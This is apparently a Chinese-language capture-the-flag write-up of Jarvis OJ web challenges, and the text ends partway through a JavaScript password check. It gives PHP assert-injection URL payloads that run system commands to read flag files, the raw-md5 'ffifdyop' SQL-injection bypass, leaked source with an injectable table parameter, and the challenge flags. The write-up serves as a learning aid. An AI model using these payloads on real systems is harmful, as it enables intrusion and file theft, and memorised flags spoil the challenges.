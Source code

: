 ```php
?>
......
```
- 看到`file`利用$page组成路径，`assert`执行字符串代码，存在注入
- 构造payload

```
http://web.jarvisoj.com:32798/?page='.system("tac templates/flag.php").'
http://web.jarvisoj.com:32798/?page=flag'.system("cat templates/flag.php;").'//查看源代码
http://web.jarvisoj.com:32798/?page=' and die(show_source('templates/flag.php')) or '
```

- 61dctf{8e_careful_when_us1ng_ass4rt}

## login
是一道sql注入题 （需要钻研）
- postman分析header`hint："select * from `admin` where password='".md5($pass,true)."'"`
- 重点是md5($pass,true) 当参数二位true时返回16位原始二进制格式的字符串
- 假设`pass=ffifdyop` 先加密md5`276f722736c95d99e921722cf9ed621c`在转换成字符串`'or'6?]??!r,??b`
- sql语句就变成`select * from `admin` where password=''or'6?]??!r,??b`
- password=''自然可以过 后者`'or'6?]??!r,??b`因为or后`'6...'`是以6(数字)开头相当于`or 1`
- 也就是sql语句`select * from `admin` where password=''or 1` 自然可以查询 不过经查询 类似与`'1xxx'=1`这种判别方法在mysql有效 在其他数据库并不一定可以
- 输入`ffifdyop`
- PCTF{R4w_md5_is_d4ng3rous}

## inject
Hint1: 先找到源码再说吧~~
- 题目位注入 先让我们找到源码
- 用SourceLeakHacker扫一下 找出`index.php~`打开看到源码
```php
<?php
require("config.php");
$table = $_GET['table']?$_GET['table']:"test";
$table = Filter($table);
mysqli_query($mysqli,"desc `secret_{$table}`") or Hacker();
$sql = "select 'flag{xxx}' from secret_{$table}";
$ret = sql_query($sql);
echo $ret[0];
?>
```

## Web?
打开网址是一个表单 
- 输入几个数据check 提示`Wrong Password!!`
- 没有头绪查看源代码发现`app.js`
- 搜索字符串`Wrong Password!!`的函数
```js
function(t) {
    self.checkpass(e) ? self.setState({
        errmsg: "Success!!",
        errcolor: b.green400
    }) : (self.setState({
        errmsg: "Wrong Password!!"
        ......
    }))
})
```
- 可以看到是一个三目运算的条件判断 查找一下`checkpass`
```js
if (25 !== e.length) return !1;
  for (var t = [], n = 0; n < 25; n++) t.push(e.charCodeAt(n));
```